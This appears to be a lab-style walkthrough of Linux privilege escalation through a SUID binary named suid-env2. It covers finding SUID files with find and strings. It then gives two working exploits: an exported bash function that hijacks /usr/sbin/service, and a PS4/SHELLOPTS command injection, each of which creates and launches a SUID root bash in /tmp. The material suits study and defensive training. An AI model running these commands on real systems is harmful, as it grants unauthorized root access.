 ### Detection
##### Find SUID binaries
```
find / -type f -perm -04000 -ls 2>/dev/null
```

- **-04000**: Find files where at least the `setuid` bit is set. Without it would mean to find exactly find the permission bits `04000` set and nothing else which is rare.
- **-ls**: It tells `find` command to run the `ls` action for each matching file, similar to running `ls -l`.

##### Note the SUID binaries
SUID binary found from the above command is 
```
/usr/local/bin/suid-env2
```

##### Check the Binary's Function
```
strings /usr/local/bin/suid-env2
```

- `setresgid` and `setresuid`: If a binary uses these functions, it can ***change its user and group ID to root (0)***.
- `system`: If the binary uses `system()`, it might be vulnerable to ***environmental manipulation*** (setting a malicious PATH).

### Exploitation

#### Method 1
This method takes advantage of `command hijacking` by manipulating the `PATH` or shell functions that the binary `sudi-env2` may be using.
##### Create a Malicious Function
```
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
```

- Define a shell function named `service` that copies the system's `/bin/bash` binary to `/tmp/bash`, changes its permissions to `SUID (chmod +s)`, and then launches `/tmp/bash` with the `-p` flag (preserves the privileges).
- The purpose is to create a copy of `bash` with root privileges in the `/tmp` directory.

##### Export the Malicious Function
```
export -f /usr/sbin/service
```

- Exports the function so that it can be called by other processes or binaries (like `suid-env2`)

##### Execute the Binary
```
/usr/local/bin/suid-env2
```

#### Method 2
This method uses environment variables to exploit the SUID binary and force it to execute a command that creates a SUID root shell.
```
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp && chown root.root /tmp/bash && chmod +s /tmp/bash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/bash -p'
```

- `env`: Runs a command with an empty environment
- `SHELLOPTS=xtrace`: This enables command tracing, showing each command executed in the script.
- `PS4`: This variable is used by the shell to prefix tracing output. By setting it to `$(cp /bin/bash /tmp && chown root.root /tmp/bash && chmod +s /tmp/bash)`, you insert a command that creates a SUID root shell whenever a traceable command is executed.
- `/usr/local/bin/suid-env2`: Runs the vulnerable binary. When command tracing (`set +x`) is enabled, the `PS4` variable's value is executed, copying and setting up a root-privileged bash shell in `/tmp/bash`.